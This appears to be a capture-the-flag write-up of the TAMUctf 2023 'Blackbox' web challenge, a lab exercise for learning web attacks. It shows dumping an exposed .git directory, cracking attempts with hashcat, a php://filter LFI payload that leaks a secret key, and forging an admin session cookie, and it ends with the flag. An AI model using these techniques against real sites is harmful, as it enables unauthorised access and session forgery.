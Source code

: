 # Blackbox (TAMUctf 2023)

## Challenge

I took a survey to find our dev's least favorite type of web challenge. The results of my survey showed that blackbox web is by far the most frustrating type of web challenge. Let's see what your opinion of it is.

NOTE: flag format for this challenge is tamuctf{...}
[http://blackbox.tamuctf.com](http://blackbox.tamuctf.com/)

## Solution

### Basic Enumeration

First of all, by just taking a look at the site, we can see that it’s possible to access two pages by normal navigation:

- [http://blackbox.tamuctf.com/?page=home](http://blackbox.tamuctf.com/?page=home)
- [http://blackbox.tamuctf.com/?page=login](http://blackbox.tamuctf.com/?page=login)

Just by looking at the URLs it’s possible to be a classic LFI, let’s save that thougth for later.

Looking at some HTTP response, we can confirm that the server uses PHP:

![Untitled](images/Untitled.png)

Accessing the login page, we’ve got the following cookie set:

```
auth_token=eyJ1c2VybmFtZSI6Imd1ZXN0IiwidXNlcl9rZXkiOiJkYWVjNzJiOTFmM2I0Yzc5IiwiYWRtaW4iOmZhbHNlfQ%3D%3D.6b2b186e8229347709a34e09c7c5b81f
```

If you pay attetion to it, the value has 2 parts, the first one looks like a base64 (%3D is “=” URL encoded), and the second one looks like some kind of hash. Let’s confirm this two hypothesis:

```bash
echo eyJ1c2VybmFtZSI6Imd1ZXN0IiwidXNlcl9rZXkiOiJkYWVjNzJiOTFmM2I0Yzc5IiwiYWRtaW4iOmZhbHNlfQ== | base64 -d
{"username":"guest","user_key":"daec72b91f3b4c79","admin":false}
```

![Untitled](images/Untitled%201.png)

Alright, it’s a JSON object with user information base64 encoded followed by a MD5 hash (likely).

Looking at source code on browser, we find nothing interesting, just a normal form on login’s page that sends a POST request.

Enumerating robots.txt and .htaccess, we find out that it doesn’t have the second one, but the robots file is giving us a powerful hint:

```bash
User-agent: *
Disallow: /.git/
```

Great! Enumeration done, let’s begin the exploration.

### Dumping git information and analysing it

I used the [git-dumper](https://github.com/arthaud/git-dumper) to download all the information present in [http://blackbox.tamuctf.com/.git](http://blackbox.tamuctf.com/.git):

```bash
git-dumper http://blackbox.tamuctf.com/.git .
```

By doing that, we discover that it has source code, transforming this into a whitebox challenge after all.

We just have one commit, so there is no information overwritten between commits.

![Untitled](images/Untitled%202.png)

Exploring the files, he find so many important information:

- **config.php** is on .gitignore, so we can’t see the source of this specific file right now
- There is an **admin.php** file that includes our desired flag
- In **util.php** we have the core logic of the back end, we can see important functions like **try_auth**, **generate_admin_token** and **is_admin**, for example.
- There is an sqlite3 database file in **sqlite/site-data.db**

First, let’s take a look into this sqlite database, that certainly draw my attention.

![Untitled](images/Untitled%203.png)

Great, so we have 1 entry in the users table, and it’s an admin account!

```
username: admin
password hash: 834503d694716c01c31a6248821764b07d5d36ff592f0c7c96874e021e907fe0
key: 26ceb685f46e6d22
```

This gadget in util.php tell us that this password is SHA-256 encrypted:

```php
function try_auth(string $username, string $password) {
  $hash_password = hash('sha256', $password);
  return db_login($username, $hash_password)->fetchArray();
}
```

It’s possible to try bruteforcing into this account. Even though I didn’t think that it was intended to do this way, I keep the following commands running just in case, while I was searching for other hints.

```bash
hashcat -a 0 -m 1400 834503d694716c01c31a6248821764b07d5d36ff592f0c7c96874e021e907fe0 /usr/share/wordlists/rockyou.txt
hashcat -a 3 -m 1400 834503d694716c01c31a6248821764b07d5d36ff592f0c7c96874e021e907fe0
```

Spoiler: I didn’t break the hash.

Next thing to do is figure out how the cookie **auth_token** is made, so we can forge our own admin session :)

### Forging the first part of admin auth_token

Alright, remember that the base64 object was:

```json
{"username":"guest","user_key":"daec72b91f3b4c79","admin":false}
```

With the new pieces of information we’ve got, we can make it into:

```json
{"username":"admin","user_key":"26ceb685f46e6d22","admin":true}
eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9rZXkiOiIyNmNlYjY4NWY0NmU2ZDIyIiwiYWRtaW4iOnRydWV9
```

However, trying to set a new cookie with this base64 encoded, with the subsequential hash unmodified doesn’t do the job unfortunately.

### Forgin the second part of admin auth_token

Reading again the util.php, this function tells us how to do it:

```php
function generate_token(array $data) {
  $b64json = base64_encode(json_encode($data));
  $hmac = hash('md5', SECRET_KEY . $b64json);

  return $b64json . '.' . $hmac;
}
```

Basically, the second part of the cookie is indeed a MD5 hash, and it’s composed by the md5sum of the base64 that we’ve just made plus a salt on the beginning (a **SECRET_KEY**, that we can’t find hardcoded in the files we have).

Ok, the next step is find out this SECRET_KEY somehow. 

If you rewind, there is one more file in this project, that we can’t see, and it is the **config.php**. Knowing that, I immediately tried some way to exploit the possible LFI on [http://blackbox.tamuctf.com/?page=](http://blackbox.tamuctf.com/?page=). Let’s verify on **index.php** code:

```php
if(isset($_GET['page'])) {
  $resource = $_GET['page'];
  include($_GET['page'] . '.php');
} else {
  include('home.php');
}
```

We have this include function, that is indeed vulnerable to LFI attacks. Note that it’s concatenating .php at the end, so it’s restricting what we can do.

First I tried [http://blackbox.tamuctf.com/?page=config](http://blackbox.tamuctf.com/?page=config), but it’s no use. At least by doing that we discover that our desired constant is present on the file.

![Untitled](images/Untitled%204.png)

So let’s try php filters with the path it was giving to us.

```
php://filter/convert.base64-encode/resource=file:///var/www/html/config
```

![Untitled](images/Untitled%205.png)

After decoding:

```php
<?php
const APP_NAME = 'Blackbox';
const INCLUDE_DIR = './templates/';
const DB_FILE = '../sqlite/site-data.db';
const SECRET_KEY = 'JYOFGX6w5ylmYXyHuMM2Rm7neHXLrBd2V0f5No3NlP8';
?>
```

Excelent! Finally we can forge the cookie’s hash.

- Concatenating the secret key with the base64:

```php
JYOFGX6w5ylmYXyHuMM2Rm7neHXLrBd2V0f5No3NlP8eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9rZXkiOiIyNmNlYjY4NWY0NmU2ZDIyIiwiYWRtaW4iOnRydWV9
```

- Calculating it’s md5:

```
58fed7114a165282749650cf5458d31f
```

- Merging everything:

```
auth_token=eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9rZXkiOiIyNmNlYjY4NWY0NmU2ZDIyIiwiYWRtaW4iOnRydWV9.58fed7114a165282749650cf5458d31f
```

- Updating the cookie and refreshing the login page:

![Untitled](images/Untitled%206.png)

We are redirected to admin’s page.

![Untitled](images/Untitled%207.png)

<aside>
⛳ The flag: tamuctf{my_f4v0rit4_7yp3_0f_w3b_ch4113ng3}

</aside>